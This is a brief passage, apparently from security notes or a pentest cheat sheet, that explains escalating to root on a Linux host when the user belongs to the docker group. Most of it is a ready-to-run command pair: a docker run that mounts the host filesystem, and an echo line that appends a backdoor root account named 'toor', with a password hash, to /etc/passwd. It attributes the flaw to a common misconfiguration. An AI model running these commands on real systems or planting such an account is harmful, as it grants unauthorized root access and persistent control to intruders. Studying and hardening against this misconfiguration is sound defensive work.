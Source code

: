 ## Get root

You land on a computer and `id` shows you're part of the `docker` group. Escalate to root with:

```bash
$> docker run -it --rm -v $PWD:/mnt bash

adds backdoor toor:password
#> echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

The flaw in my example isn't in docker or it's design. It's a misconfiguration that happens all too often. Native Docker needs root access to run but people get tired of needing to type sudo, so they add themselves to the docker group.

https://twitter.com/4lex/status/1035932897407115264
